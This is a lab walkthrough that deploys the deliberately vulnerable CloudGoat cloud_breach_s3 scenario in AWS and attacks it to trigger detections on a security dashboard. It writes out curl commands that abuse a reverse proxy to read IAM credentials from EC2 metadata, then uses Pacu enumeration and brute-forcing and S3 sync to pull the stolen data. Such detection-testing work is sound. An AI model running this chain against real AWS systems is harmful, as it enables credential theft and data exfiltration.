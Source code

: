 ### Objective 
Quick attack to get account in critical quadrant (~20 minutes).
- Detections include
  - AWS Organization Discovery
  - AWS User Permissions Enumeration
  - AWS Suspicious Credential Usage
  - AWS Suspicious EC2 Enumeration
  - AWS S3 Enumeration

![critical](./images/critical.png)

### Guide Notes
- There are other ways to install the tools and will depend on distro.
- Setting up the AWS profile may very based on an organizations requirements for instance SSO.

### Requirments
- Linux or MacOS. Windows is not officially supported.
  - If you are using Windows we recommand install [WSL2](https://docs.microsoft.com/en-us/windows/wsl/install)
  - If you are using a Linux virtual machine AWS EC2 is not supported
  - In this guide a new Ubuntu VM was created in VM Fusion.  This guide goes through setting up the Ubuntu VM.
- Python3.6+ is required.
- Terraform >= 0.14 installed and in your $PATH.
- The AWS CLI installed and in your $PATH, and an AWS account with sufficient privileges to create and destroy resources.
  - AWS [Named profile configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html)

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```
![awsprofile](./images/awsprofile.png)
### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```

![Cloudgoat](./images/cloudgoatout.png)

- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 
![role](./images/role.png)

- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

![ssrf2](./images/ssrf2.png)  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step

![pacukeys](./images/pacukeys.png)

- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**

![output](./images/output.png)

- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```
![sestoken](./images/sestoken.png)

- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```
![list](./images/list.png)
- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```
![download](./images/download.png)
- Remove vulnerable infrasturecure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  
